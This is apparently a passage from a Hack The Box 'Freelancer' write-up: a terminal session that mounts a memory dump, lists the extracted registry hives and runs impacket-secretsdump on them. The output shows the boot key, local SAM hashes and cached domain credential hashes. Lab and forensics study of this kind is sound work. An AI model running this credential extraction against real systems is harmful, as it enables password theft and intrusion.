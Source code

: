 ```bash
┌──(root㉿kraken)-[/mnt/tmpmount]
└─# ls -alh
Permissions Size User Date Modified Name
drwxr-xr-x     - root 16 Jun 07:14   conf
drwxr-xr-x     - root 16 Jun 07:14   forensic
.rw-r--r--  1.8G root 16 Jun 07:14   memory.dmp
.rw-r--r--  1.8G root 16 Jun 07:14   memory.pmem
drwxr-xr-x     - root 16 Jun 07:14   misc
drwxr-xr-x     - root 16 Jun 07:14   name
drwxr-xr-x     - root 16 Jun 07:14   pid
drwxr-xr-x     - root 16 Jun 07:14   py
drwxr-xr-x     - root 16 Jun 07:14   registry
drwxr-xr-x     - root 16 Jun 07:14   sys
┌──(root㉿kraken)-[/mnt/tmpmount/registry/hive_files]
└─# ls -l
Permissions Size User Date Modified Name
.rw-r--r--  8.2k root 16 Jun 07:14   0xffffd3067b257000-settingsdat-A_{c94cb844-4804-8507-e708-439a8873b610}.reghive
.rw-r--r--  324k root 16 Jun 07:14   0xffffd3067b261000-ActivationStoredat-A_{23F7AFEB-1A41-4BD7-9168-EA663F1D9A7D}.reghive
.rw-r--r--   29k root 16 Jun 07:14   0xffffd3067b514000-BCD-MACHINE_BCD00000000.reghive
.rw-r--r--   91M root 16 Jun 07:14   0xffffd3067b516000-SOFTWARE-MACHINE_SOFTWARE.reghive
.rw-r--r--  319k root 16 Jun 07:14   0xffffd3067d7e9000-DEFAULT-USER_.DEFAULT.reghive
.rw-r--r--   49k root 16 Jun 07:14   0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive
.rw-r--r--  188k root 16 Jun 07:14   0xffffd3067d9c4000-NTUSERDAT-USER_S-1-5-20.reghive
.rw-r--r--   49k root 16 Jun 07:14   0xffffd3067d935000-SAM-MACHINE_SAM.reghive
.rw-r--r--  242k root 16 Jun 07:14   0xffffd3067db43000-BBI-A_{ae450ff4-3002-4d4d-921c-fd354d63ec8b}.reghive
.rw-r--r--  172k root 16 Jun 07:14   0xffffd3067db53000-NTUSERDAT-USER_S-1-5-19.reghive
.rw-r--r--  119k root 16 Jun 07:14   0xffffd3067dd5e000-ActivationStoredat-A_{D65833F6-A688-4A68-A28F-F59183BDFADA}.reghive
.rw-r--r--  1.2M root 16 Jun 07:14   0xffffd3067e30e000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121_Classes.reghive
.rw-r--r--  1.5M root 16 Jun 07:14   0xffffd3067ec26000-Amcachehve-A_{da3518a3-bbc6-1dba-206b-2755382f1364}.reghive
.rw-r--r--  524k root 16 Jun 07:14   0xffffd3067ec39000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121.reghive
.rw-r--r--   45k root 16 Jun 07:14   0xffffd3067ec58000-settingsdat-A_{8a28242f-95cc-f96a-239c-d8a872afe4cc}.reghive
.rw-r--r--  3.8M root 16 Jun 07:14   0xffffd3067f097000-DRIVERS-MACHINE_DRIVERS.reghive
.rw-r--r--  643k root 16 Jun 07:14   0xffffd3067f9e7000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500.reghive
.rw-r--r--  1.4M root 16 Jun 07:14   0xffffd3067f91b000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500_Classes.reghive
.rw-r--r--  8.2k root 16 Jun 07:14   0xffffd30679c0e000-unknown-unknown.reghive
.rw-r--r--   18M root 16 Jun 07:14   0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive
.rw-r--r--   29k root 16 Jun 07:14   0xffffd30679cdc000-unknown-MACHINE_HARDWARE.reghive
└─# impacket-secretsdump -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361: (2023-10-04 12:55:34)
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1: (2023-10-04 12:29:00)
```